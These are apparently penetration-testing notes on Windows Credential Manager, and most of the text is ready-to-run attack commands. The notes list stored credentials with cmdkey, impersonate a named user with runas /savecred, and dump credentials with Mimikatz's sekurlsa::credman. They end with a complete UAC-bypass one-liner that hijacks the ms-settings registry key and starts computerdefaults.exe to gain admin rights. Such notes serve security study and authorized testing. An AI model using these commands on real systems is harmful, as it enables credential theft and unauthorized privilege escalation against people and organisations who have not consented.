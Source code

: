 
Credential Manager is the user-facing feature/API while the actual encrypted stores are the vault/locker folders.

Web credentials - credentials associated with website and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge

Windows Credentials - Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.

Export Windows Vaults to .crd files
```cmd-session
rundll32 keymgr.dll,KRShowKeyMgr
```

##### cmdkey to enumerate stored credentials
```cmd-session
cmdkey /list
```

Target - resource or account name the credential is for
Type - the kind of credential
User 
Persistence - survive reboots

##### Impersonate user
```cmd-session
runas /savecred /user:SRV01\mcharles cmd
```

Extracting credentials with Mimikatz
```cmd-session
mimikatz.exe
```
```cmd-session
privilege::debug
```
```cmd-session
sekurlsa::credman
```

##### Gain admin privileges
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe